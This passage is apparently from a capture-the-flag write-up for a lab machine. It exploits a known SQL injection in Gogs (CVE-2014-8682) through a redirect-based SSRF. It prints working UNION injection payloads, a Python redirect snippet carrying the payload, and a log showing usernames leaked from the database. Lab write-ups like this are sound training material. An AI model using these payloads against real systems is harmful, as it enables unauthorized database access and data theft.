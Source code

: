 #### Identify

There’s an SQL injection vulnerability in this version of Gogs, [CVE-2014-8682](https://github.com/advisories/GHSA-g6xv-8q23-w2q3). This [exploitDB](https://www.exploit-db.com/exploits/35238) entry has a few payloads for this. I’ll start with this one as it seems the simplest to understand what it is doing:

```

http://www.example.com/api/v1/users/search?q='/**/and/**/false)/**/union/**/
select/**/null,null,@@version,null,null,null,null,null,null,null,null,null,null,
null,null,null,null,null,null,null,null,null,null,null,null,null,null/**/from
/**/mysql.db/**/where/**/('%25'%3D'

```

There’s a UNION injection. The table it should be reading from clearly has 27 columns, which the POC is filling with mostly `null`, but putting the version in the third column. That’s because that’s one of the columns that is displayed back in the output. It also seems like it can’t use spaces, but is using `/**/` instead.

#### POC

I’ll test this out by updating the payload to point to Health’s Gogs just like this, but it doesn’t work.

I’m going to simplify the payload a bit:

```

    target = "http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27--/**/-"
    return redirect(target)

```

This should just try to read numbers into the query, and it works:

```
10.10.11.176 - - [06/Jan/2023 22:04:10] "GET /redirect HTTP/1.0" 302 -
Got Hook!
{'webhookUrl': 'http://10.10.14.6/hook', 'monitoredUrl': 'http://10.10.14.6/redirect', 'health': 'up', 'body': '{"data":[{"username":"susanne","avatar":"//1.gravatar.com/avatar/c11d48f16f254e918744183ef7b89fce"},{"username":"3","avatar":"//1.gravatar.com/avatar/15"}],"ok":true}', 'message': 'HTTP/1.0 302 FOUND', 'headers': {'Content-Type': 'application/json; charset=UTF-8', 'Content-Length': '166', 'Location': "http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27--/**/-", 'Server': 'Werkzeug/2.0.2 Python/3.8.10', 'Date': 'Fri, 06 Jan 2023 22:04:10 GMT', 'Set-Cookie': '_csrf=; Path=/; Max-Age=0'}}
10.10.11.176 - - [06/Jan/2023 22:04:10] "POST /hook HTTP/1.1" 200 -

```

It’s giving info about “susanne” as well as about “3”.

#### Id Database
